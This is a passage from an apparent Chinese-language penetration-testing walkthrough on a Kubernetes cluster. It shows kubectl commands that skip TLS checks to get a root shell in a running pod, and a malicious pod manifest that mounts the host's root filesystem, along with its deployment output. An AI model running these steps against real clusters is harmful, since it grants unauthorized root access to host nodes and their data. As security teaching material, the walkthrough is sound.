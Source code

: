 可以进入指定的 Pod 中，获取控制权限：

```
root@kali-server:~# kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ --namespace=default exec -it nginx-deployment-58d48b746d-d6x8t bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
Please enter Username: hony
Please enter Password:
root@nginx-deployment-58d48b746d-d6x8t:/#
root@nginx-deployment-58d48b746d-d6x8t:/# whoami
root
```

使用如下配置「evil_pod.yaml」创建恶意 Pod，将宿主机的存储将文件或目录挂载到 K8s 集群的 Pod 中：

```yaml
apiVersion: v1
kind: Pod
metadata:
    name: evil-nginx
spec:
    containers:
        - name: evil-container
          image: nginx:1.8
          volumeMounts:
              - mountPath: /mnt
                name: evil-volume
    volumes:
        - name: evil-volume
          hostPath:
              # directory location on host
              path: /
              # this field is optional
              type: Directory
```

> 注：配置文件中，最好使用已有的 image 进行创建，此处使用 `nginx:1.8`。

创建恶意的 Pod：

```console
root@kali-server:~# kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ apply -f evil_pod.yaml
pod/evil-nginx created

root@kali-server:~# kubectl --insecure-skip-tls-verify -s https://172.22.14.37:6443/ get pods -o wide
NAME                                READY   STATUS    RESTARTS   AGE    IP            NODE         NOMINATED NODE   READINESS GATES
evil-nginx                          1/1     Running   0          18s    10.244.0.40   ubuntu-k8s   <none>           <none>
nginx-deployment-58d48b746d-d6x8t   1/1     Running   3          294d   10.244.0.35   ubuntu-k8s   <none>           <none>
nginx-deployment-58d48b746d-pg4gl   1/1     Running   3          294d   10.244.0.37   ubuntu-k8s   <none>           <none>
nginx-deployment-58d48b746d-s2vwl   1/1     Running   3          294d   10.244.0.34   ubuntu-k8s   <none>           <none>
nginx-deployment-58d48b746d-x26mr   1/1     Running   3          294d   10.244.0.33   ubuntu-k8s   <none>           <none>
```
